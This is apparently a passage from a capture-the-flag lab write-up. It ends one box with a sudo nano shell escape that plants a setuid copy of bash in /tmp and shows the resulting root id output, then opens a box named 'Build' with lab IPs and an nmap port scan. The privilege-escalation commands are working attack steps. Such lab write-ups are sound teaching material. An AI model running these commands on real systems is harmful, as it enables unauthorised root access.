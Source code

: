 ```bash
sudo /usr/bin/nano /etc/firewall.sh
^R
^X
cp /bin/bash /tmp/bash ; chmod u+s /tmp/bash
```
```bash
/tmp/bash -p 

bash-5.1# id
uid=1001(sadm) gid=1001(sadm) euid=0(root) groups=1001(sadm)
```
Nice !!

![alt text](../assets/image_reset-build/build.jpeg)

### Build

# Before starting

```console
Me > 10.8.2.163
Target > 10.10.90.125
```
```console
PORT     STATE    SERVICE
22/tcp   open     ssh
53/tcp   open     domain
512/tcp  open     exec
513/tcp  open     login
514/tcp  open     shell
873/tcp  open     rsync
3000/tcp open     ppp
3306/tcp filtered mysql
8081/tcp filtered blackice-icecap
```
```console
# NOTE : 3306 and 8081 are filtered
```